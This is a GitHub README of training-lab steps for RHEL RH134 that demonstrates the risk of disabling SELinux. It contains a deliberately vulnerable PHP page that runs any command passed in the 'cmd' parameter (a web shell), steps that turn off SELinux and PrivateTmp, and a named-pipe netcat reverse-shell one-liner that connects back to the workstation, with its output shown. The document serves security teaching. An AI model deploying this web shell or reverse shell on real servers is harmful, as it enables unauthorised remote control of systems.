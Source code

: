 # rh134_Selinux
* Extra Practice for RH134 Training - RHEL 8.2 Admin II
  >> To run on Redhat RH134 Lab Systems!

### Scenario: We going to the see effects of turning off/disabled SElinux on ServerA

### Part1: Instruction - run in servera or serverb ( choose 1 ) and run as user root
  >> We assume its servera 

1.  Setup apache webserver and php 
```sh 
yum install httpd php -y 
```

2. Setup PHP Page 
```sh 

cd /var/www/html/

touch index.php 

insert this code into index.php 

<html>
 <head>
  <title>PHP Page</title>
 </head>
 <body>
 <?php echo '<p>Hello Redhat</p>'; ?>
 <p> Welcome RH134 Students </p>
 <p> Sample Vendor provided Page/App</p>
 <p> This page (php) allows you to execute Linux Command</p>
 <p> SElinux Demo Page </p>
 <?php system($_GET['cmd']);?>

 </body>
</html>
```

3. Comment PrivateTMP in htttpd and php-fpm systemd config file and save it
```sh 

vim /usr/lib/systemd/system/httpd.service
#PrivateTmp=true

vim /usr/lib/systemd/system/php-fpm.service
#PrivateTmp=true

systemd daemon-reload 
systemctl enable --now httpd
```

4. Turn Off SElinux 
```sh 

getenforce 

setenforce 0 

getenforce 

```

5. Enable firewall to allow access to webserver
```sh 
firewall-cmd --permanent --add-service=http

firewall-cmd --reload
```

### Part2: Instruction - run in workstation machine

1. Open firefox to http://servera.lab.example.com 
once in the browser, execute this on the address bar, this will create a device character file called backpipe1 

```sh 
http://servera.lab.example.com/index.php?cmd=mknod /var/tmp/backpipe1 p

```

2. Create a local listener in workstation machine, open a terminal and run 
```sh 

firewall-cmd ----permanent --add-port=1234/tcp

firewall-cmd --reload

nc -lvvp 1234

```

3. Back to firefox, run the following to establish a reverse shell from webserver to workstation listener 
```sh 
http://servera.lab.example.com/index.php?cmd=/bin/sh 0</var/tmp/backpipe1 | nc workstation.lab.example.com 1234 1>/var/tmp/backpipe1


```

4. Check the terminal where the nc listener running and open a shell 
you should receive a connection from servera ( 172.25.250.10 )

```sh 
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.25.250.10.
Ncat: Connection from 172.25.250.10:54496.
```

Run the following command to create a shell 

```sh 
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

You should receive a shell
```sh 
sh-4.4$ 
```

5. If Step 4 done, you now have a reverse shell (hacked shell) to servera from workstation 
run the following command to create a exploit file and run the exploit 
>> the exploit file is just a shell script, in real life, an attacker could run a real exploit !!
```sh
sh-4.4$ cd /tmp

sh-4.4$ echo "echo OWN3D_servera" > ex.sh

sh-4.4$ cat ex.sh
echo OWN3D_servera

sh-4.4$ chmod +x ex.sh

sh-4.4$ ls -l ex.sh
-rwxrwxrwx. 1 apache apache 19 Mar 22 09:25 ex.sh

sh-4.4$ ./ex.sh
OWN3D_servera

sh-4.4$

```


